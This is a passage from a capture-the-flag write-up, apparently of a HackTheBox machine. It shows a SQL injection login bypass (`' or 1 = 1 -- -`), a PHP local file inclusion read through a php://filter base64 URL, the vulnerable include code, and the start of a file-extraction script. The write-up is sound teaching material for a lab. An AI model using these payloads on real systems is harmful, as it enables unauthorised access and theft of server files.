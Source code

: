 I tried random credentials, the site did not say if a username existed or not. I then tried simple SQL Injection by using the username `' or 1 = 1 -- -` and it worked. I was connected as the administrator.

![Welcome Back Admin](/assets/images/2022/06/Trick/WelcomBackAdmin.png "Welcome Back Admin")

Once connected, I was sent to `http://preprod-payroll.trick.htb/index.php?page=home`. The `page` parameter looked like it could be vulnerable to LFI. I had run feroxbuster on the site, so I knew there was a file called `home.php`. The vulnerable code must have been adding the `.php` after the file name.

I tried reading the index.php file using LFI and PHP stream filters to get it as base64. I loaded `http://preprod-payroll.trick.htb/index.php?page=php://filter/convert.base64-encode/resource=index`. It returned the encoded source code for the file. I saved it to a file and decoded it with `base64 -d index.b64 > index.php`.

Amongst the returned code, there was the part with the LFI vulnerability. With this, I could read any PHP file from the server.

```php
<main id="view-panel" >
    <?php $page = isset($_GET['page']) ? $_GET['page'] :'home'; ?>
  <?php include $page.'.php' ?>
</main>
```

The site had a lot of PHP files. So I wrote a small script to extract them all and save them locally.

```python
#!/bin/env python

import requests
from bs4 import BeautifulSoup
import base64

files = [
    'index',
    'login',
    'ajax',
    'home',
    'users',
    'header',
    'employee',
    'navbar',
    'department',
    'db_connect',
```
